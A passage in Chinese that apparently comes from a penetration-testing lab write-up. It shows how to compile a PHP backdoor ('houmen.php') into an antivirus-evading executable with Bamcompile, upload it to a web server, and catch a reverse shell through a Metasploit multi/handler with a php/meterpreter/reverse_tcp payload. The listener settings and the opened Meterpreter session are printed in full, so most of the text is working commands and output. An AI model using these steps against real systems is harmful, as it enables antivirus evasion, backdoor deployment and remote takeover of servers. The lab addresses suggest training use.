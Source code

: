 构造免杀

工具：[Release bamcompile1.21.zip · xZero707/Bamcompile (github.com)](https://github.com/xZero707/Bamcompile)

```powershell
PS D:\ProgramOthers\Security\bamcompile1.21> .\bamcompile.exe -w -c .\houmen.php .\miansha.exe

Bambalam PHP EXE Compiler/Embedder 1.21

Windowed application
Compress
Mainfile: .\houmen.php
Outfile: .\miansha.exe

Encoding and embedding .\houmen.php
Compressing final exe..
Compression done

.\miansha.exe created successfully!
```

得到免杀 EXE

![image-20220906014757932](./st2.assets/image-20220906014757932.png)

将其上传到 WEB 中，然后开启监听，运行miasha.exe，成功反弹

```bash
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 192.168.111.128
lhost => 192.168.111.128
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.111.128:9999 
[*] Sending stage (39282 bytes) to 192.168.111.80
[*] Meterpreter session 3 opened (192.168.111.128:9999 -> 192.168.111.80:53897 ) at 2022-09-05 13:54:37 -0400
```